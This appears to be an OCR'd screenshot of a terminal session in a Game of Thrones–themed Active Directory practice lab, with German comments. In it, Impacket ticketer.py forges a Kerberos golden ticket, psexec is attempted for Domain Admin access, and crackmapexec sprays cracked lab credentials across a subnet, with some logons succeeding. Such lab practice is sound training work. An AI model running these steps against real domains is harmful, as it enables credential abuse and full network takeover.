 /home/tala/myenv/lib/python3.12/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: SMB SessionError: code: 0xc000006d - STATUS_LOGON_FAILURE - The attempted logon is invalid. This is either due to a bad username or authentication information.
[*] Cleaning up... 
(myenv) root@tala-HP-255-15-6-inch-G10-Notebook-PC:~# ticketer.py -nthash <krbtgt_nt_hash> -domain-sid <domain_sid_north> -domain north.sevenkingdoms.local -spn cifs/winterfell.north.sevenkingdoms.local administrator

# Ticket verwenden
export KRB5CCNAME=administrator.ccache
klist

# Domain Admin-Zugriff bestätigen
psexec.py -k -no-pass administrator@winterfell.north.sevenkingdoms.local
bash: krbtgt_nt_hash: Datei oder Verzeichnis nicht gefunden
Der Befehl 'klist' wurde nicht gefunden, kann aber installiert werden mit:
apt install krb5-user        # version 1.20.1-6ubuntu2.5, or
apt install heimdal-clients  # version 7.8.git20221117.28daf24+dfsg-3ubuntu4
/home/tala/myenv/lib/python3.12/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] [Errno Connection error (winterfell.north.sevenkingdoms.local:445)] [Errno -2] Name or service not known
(myenv) root@tala-HP-255-15-6-inch-G10-Notebook-PC:~# # Geknackte Credentials validieren
crackmapexec smb 192.168.20.0/24 -u jon.snow -p iknownothing
crackmapexec smb 192.168.20.0/24 -u brandon.stark -p iseedeadpeople

# Bekannte Default-Credentials testen
crackmapexec smb 192.168.20.0/24 -u samwell.tarly -p Heartsbane

# WinRM-Zugriff testen
crackmapexec winrm 192.168.20.0/24 -u jon.snow -p iknownothing
2025/08/27 11:16:44.911190 cmd_run.go:1408: WARNING: will not expose Kerberos tickets' path: Unsupported KRB5CCNAME: administrator.ccache
SMB         192.168.20.22   445    CASTELBLACK      [*] Windows 10.0 Build 17763 x64 (name:CASTELBLACK) (domain:north.sevenkingdoms.local) (signing:False) (SMBv1:False)
SMB         192.168.20.11   445    WINTERFELL       [*] Windows 10.0 Build 17763 x64 (name:WINTERFELL) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         192.168.20.12   445    MEEREEN          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:MEEREEN) (domain:essos.local) (signing:True) (SMBv1:True)
SMB         192.168.20.23   445    BRAAVOS          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:BRAAVOS) (domain:essos.local) (signing:False) (SMBv1:True)
SMB         192.168.20.10   445    KINGSLANDING     [*] Windows 10.0 Build 17763 x64 (name:KINGSLANDING) (domain:sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         192.168.20.22   445    CASTELBLACK      [+] north.sevenkingdoms.local\jon.snow:iknownothing
SMB         192.168.20.11   445    WINTERFELL       [+] north.sevenkingdoms.local\jon.snow:iknownothing
SMB         192.168.20.12   445    MEEREEN          [-] essos.local\jon.snow:iknownothing STATUS_LOGON_FAILURE